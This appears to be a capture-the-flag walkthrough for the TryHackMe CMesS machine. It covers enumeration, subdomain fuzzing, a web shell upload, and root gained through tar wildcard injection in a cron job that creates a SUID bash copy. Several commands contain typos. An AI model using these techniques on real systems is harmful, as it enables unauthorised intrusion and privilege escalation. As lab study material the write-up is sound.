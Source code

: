 First of all we need to put the domain in our `/etc/hosts` file:
```text
HOST_IP cmess.thm
```
- ![[Pasted image 20250117164004.png]]


# Nmap scan
First of all we need to do a `NMAP` scan:
```bash
nmap -A -p- HOST_IP
```
- ![[Pasted image 20250117164045.png]]
- we can see there is a `http` server on port `80`


# Navigate and enumerate the web server

We start to enumerate the website:
- ![[Pasted image 20250117164134.png]]

We use `dirbuster` and we find a `/admin` page.


We connect to it:
- ![[Pasted image 20250117164305.png]]
- But nothing interesting


# Enumerating subdomains

To do that we use `wfuzz`:
```bash
wfuzz -c-f sub-fighter -w top5000.txt -u 'http://cmess.htm' -H "Hosh: FUZZ.cmess.thm"
```
- we can find the wordlist here [https://github.com/danielmiessler/SecLists/blob/master/Discovery/DNS/subdomains-top1million-5000.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/DNS/subdomains-top1million-5000.txt)
- ![[Pasted image 20250117164632.png]]

A lot of results so we filter on size `290` them:
```bash
wfuzz -c-f sub-fighter -w top5000.txt -u 'http://cmess.htm' -H "Hosh: FUZZ.cmess.thm" -hw 290
```
- ![[Pasted image 20250117164753.png]]
- we found `dev`

We add it into the `/etc/hosts`:
- ![[Pasted image 20250117164825.png]]

At this point we visit it and we get:
- ![[Pasted image 20250117164851.png]]
- a password and the username `andre`




So we go on `/admin` and we login as `andre:passfound`:
- ![[Pasted image 20250117164948.png]]

# File upload
In the content section we can upload files:
- ![[Pasted image 20250117165040.png]]
- ![[Pasted image 20250117165030.png]]


We can see that `.phtlm` is allowed.


So we visit `cmess.htm/assets/shell.phtml` and the shell pops out:
- ![[Pasted image 20250117165219.png]]


# Privilege escalation
So we download in it `linpeas` and `linenum.sh`

We make them executable:
```bash
chmod +x linenum.sh
```

And we run it:
```bash
./linenum.sh
```


It shows us the crons:
- ![[Pasted image 20250117165457.png]]
	- we have a wildcard!
- ![[Pasted image 20250117165542.png]]
	- we can also see a backup of passwords on which we have all permissions

So we read the backup file:
```bash
cat /opt/.password.bak
```
- ![[Pasted image 20250117165634.png]]

So at this point we access with `ssh` to be more stable on the machine:
```bash
ssh andre@HOST_IP
```
- ![[Pasted image 20250117165737.png]]


## cron wildcards
So now we try to escalate with the wildcard in cron:
```bash
cat /etc/crontab
```
- ![[Pasted image 20250117165829.png]]

So we just need to do:
```bash
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/andre/backup/shell.sh
```
-  since the script is executed there


Now we generate the checkpoints:
```bash
touch /home/andre/backup/--checkpoint=1

touch /home/andre/backup/--checkpoint-action=exec=sh\shell.sh
```


After a while we can see in `/tmp`:
- ![[Pasted image 20250117170134.png]]

Now we just need to run it:
```bash
/tmp/bash -p
```
- ![[Pasted image 20250117170202.png]]


<mark style="background: #BBFABBA6;">We gain root shell!</mark>

